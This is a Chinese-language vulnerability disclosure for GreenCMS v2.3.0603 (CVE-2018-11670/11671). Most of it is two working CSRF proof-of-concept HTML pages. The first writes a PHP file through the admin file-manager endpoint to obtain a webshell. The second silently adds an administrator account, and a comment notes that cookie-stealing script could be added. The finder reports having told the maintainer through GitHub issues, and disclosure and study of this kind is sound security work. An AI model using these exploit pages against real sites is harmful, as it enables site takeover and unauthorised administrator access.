 ### 漏洞简介  

|漏洞名称|上报日期|漏洞发现者|产品首页|软件链接|版本|CVE编号|
--------|--------|---------|--------|-------|----|------|
|GreenCMS v2.3.0603存在CSRF漏洞可获取webshell&增加管理员账户|2018-06-02|惜潮|[https://github.com/GreenCMS/GreenCMS](https://github.com/GreenCMS/GreenCMS) | [https://github.com/GreenCMS/GreenCMS](https://github.com/GreenCMS/GreenCMS) |v2.3.0603| [CVE-2018-11670](http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-11670)/[CVE-2018-11671](http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-11671)|  

#### 漏洞概述  

> 恶意攻击者可以精心伪造一个Html页面 从而获取网站webshell。GreenCMS是一个在github上开源的CMS系统，漏洞发现者已经将漏洞信息通过[issues](https://github.com/GreenCMS/GreenCMS/issues/108)/[issues](https://github.com/GreenCMS/GreenCMS/issues/109)告知作者。   


### POC实现代码如下：  

> 从CSRF到get webshell 的exp代码如下：  

``` html
<span style="font-size:18px;"><!DOCTYPE html> 
<html lang="en"> 
<head> 
    <meta charset="UTF-8"> 
    <title>csrf测试</title> 
</head> 
<form action="http://127.0.0.1//14/index.php?m=admin&c=media&a=fileconnect" method="POST" id="transfer" name="transfer">
    <!-- 下面的是生成文件名为xc.php的脚本文件 路径 127.0.0.1/Upload/xc.php -->
    <script src="http://127.0.0.1/14/index.php?m=admin&c=media&a=fileconnect&cmd=mkfile&name=xc.php&target=l1_XA&_=1527839615462"></script>
    <input type="hidden" name="cmd" value="put">
    <input type="hidden" name="target" value="l1_eGMucGhw">
　    <input type="hidden" name="content" value="<?php phpinfo();?>">
    <!-- 下面的是提交表单 将content中的命令写入脚本内 -->
    <button type="submit" value="Submit">WebShell</button>
    </form>
    </body>
</html></span>
```
> 从CSRF到增加管理员 的exp代码如下：  

``` html
<span style="font-size:18px;"><!DOCTYPE html>  
<html lang="en">  
<head>  
    <meta charset="UTF-8">  
    <title>csrf测试</title>  
</head>  
　　<body>  
    　　　　<form action="http://127.0.0.1//14/index.php?m=admin&c=access&a=adduserhandle" method="POST" id="transfer" name="transfer">  
　　　　　　　　<input type="hidden" name="user_id0" value="1">  
　　　　　　　　<input type="hidden" name="user_login" value="test1">  <!--在这里可以添加JS脚本用于获取cookies  csrf+xss-->
　　　　　　　　<input type="hidden" name="password" value="test1">  
　　　　　　　　<input type="hidden" name="rpassword" value="test1">  
　　　　　　　　<input type="hidden" name="user_nicename" value="123">  
　　　　　　　　<input type="hidden" name="user_email" value="123%40Qq.com">  
　　　　　　　　<input type="hidden" name="user_url" value="www.baidu.com">  
　　　　　　　　<input type="hidden" name="user_intro" value="test">  
　　　　　　　　<input type="hidden" name="user_status" value="1">  
　　　　　　　　<input type="hidden" name="role_id" value="1">
        <button type="submit" value="Submit">添加管理员</button>  
　　　　　　</form>  
    </body>
</html></span>
```
